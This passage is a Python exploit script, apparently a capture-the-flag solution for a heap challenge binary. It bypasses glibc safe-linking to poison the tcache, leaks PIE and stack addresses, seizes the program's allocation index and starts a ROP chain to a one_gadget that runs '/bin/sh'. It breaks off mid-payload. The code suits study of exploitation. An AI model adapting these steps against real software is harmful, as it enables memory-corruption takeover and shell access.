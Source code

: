 ```python
prot_xor = heap_leak>>12	# Get the pos >> PAGE_SHIFT "xor key"
dest = heap_leak+0x100		# Destination is the malloc management chunk
fin = prot_xor ^ dest		# Calculate the PROTECT_PTR result
info("PROTECT_PTR res: %s^%s = %s" % (hex(prot_xor), hex(dest), hex(fin)))

edit(4, payload+p64(fin))	# Send payload

# malloc() to make the next t-cache entry the dest address
malloc(0x100-0x8, b'_')



# Get a PIE leak
base_ptr = ld + 0x34300
malloc(0x100-0x8, p64(base_ptr))                # Put ld.so pointer to base in bin

malloc(0x100-0x8, b'\x08')                      # malloc() the ld.so pointer and read the pointer to get PIE, 
                                                # making sure to overwrite the lower null-byte so puts can read

elf.address = int(see(9)[::-1].hex(), 16) - 8   # Parse the leak (and subtract the null-byte overwriting)
info('Base address: %s' % hex(elf.address))


# Taking control of &garbage_truck (the malloc indexer) 
edit(8, p64(elf.symbols['garbage_truck'])) # Set the next tcache addr directly to garbage_truck

payload =  p64(0xdeadbeefcafebabe)              # Entry 0 will be the 'buffer' for operations
payload += p64(elf.symbols['garbage_truck'])    # Entry 1 will be the buffer for entry 0
payload += p64(heap_leak + 0x100)               # Entry 2 will be the next tcache pointer
payload += p64(elf.symbols['garbage_truck']+88) # Entry 3 will control the malloc counter
malloc(0x100-0x8, payload)                      # Malloc on top of &garbage_truck and write payload


# Getting a stack leak
edit(3, p64(0x5))								# Set malloc counter to 5 (only entries we need)

edit(1, p64(elf.symbols['garbage_truck']+32))	# Set entry 0 to point to entry 5 (which will be used as a pointer to __libc_argc)
edit(0, p64(libc.symbols['__libc_argv']))		# Actual pointer to __libc_argv

sp = int(see(4)[::-1].hex(), 16) - 296			# Parse the leak and subtract correct values to get desired address
info("Stack pointer: %s" % hex(sp))



# Prepare next t-cache entry to be the address of upcoming RIP
edit(2, p64(sp-32))

# Get shellz with simple ROP and a one_gadget
popr        = libc.address + 0x000000000002b9e3 # : pop r12 ; pop r13 ; ret

one_gadget  = libc.address + 0xd05ea            # 0xd05ea execve("/bin/sh", r12, r13)
                                                # constraints:
                                                #   [r12] == NULL || r12 == NULL
                                                #   [r13] == NULL || r13 == NULL
 
payload = b'A'*24    # Padding
payload += p64(popr) # gadget to pop contrains
payload += p64(0)*2  # Set r12 and r13 to 0
```